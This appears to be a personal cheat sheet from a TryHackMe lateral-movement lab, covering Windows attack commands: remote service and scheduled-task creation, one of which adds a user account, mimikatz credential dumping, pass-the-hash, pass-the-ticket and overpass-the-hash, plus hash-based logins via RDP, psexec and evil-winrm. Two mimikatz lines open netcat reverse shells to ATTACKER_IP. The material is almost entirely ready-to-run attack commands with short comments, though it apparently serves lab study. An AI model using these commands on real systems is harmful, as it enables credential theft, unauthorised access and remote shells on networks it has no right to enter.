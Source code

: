 # sc.exe (Remote services)
`sc.exe \\TARGET create THMservice binPath= "net user munra Pass123 /add" start= auto`
`sc.exe \\TARGET start THMservice`
`sc.exe \\TARGET stop THMservice
sc.exe \\TARGET delete THMservice`

# Schedule task (remote run)
`schtasks /s TARGET /RU "SYSTEM" /create /tn "THMtask1" /tr "<command/payload to execute>" /sc ONCE /sd 01/01/1970 /st 00:00 `
`schtasks /s TARGET /run /TN "THMtask1" `
`schtasks /S TARGET /TN "THMtask1" /DELETE /F`

## PASS THE HASH
# PTH with mimikatz
*Admin privs*
`privilege::debug`
`token::elevate`
`sekurlsa::msv`
`token::revert`
`sekurlsa::pth /user:bob.jenkins /domain:za.tryhackme.com /ntlm:6b4a57f67805a663c818106dc0648484 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5555"`*if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH*

# PTH RDP
`xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH`
# PTH ps.exec
`psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP`(linux version)
# PTH evil-winrm
`evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH`


## PASS THE TICKET
*TGT cant be exported with admin priv, TGS with low priv*
`privilege::debug`
`sekurlsa::tickets /export`
`kerberos::ptt [0;427fcd5]-2-0-40e10000-Administrator@krbtgt-ZA.TRYHACKME.COM.kirbi
`*inject the ticket in the current session*
`klist`*Running this in powershell will show cached-injected cred*


## PASS THE KEY
`privilege::debug`
`sekurlsa::ekeys`
`sekurlsa::pth /user:Administrator /domain:za.tryhackme.com /rc4:96ea24eff4dff1fbe13818fbf12ea7d8 /run:"c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 5556"`*When using RC4 instead of AES and etc, the key will be equal to the NTLM hash,we can use it to request a TGT- Known as Overpass-the-Hash (OPtH)*
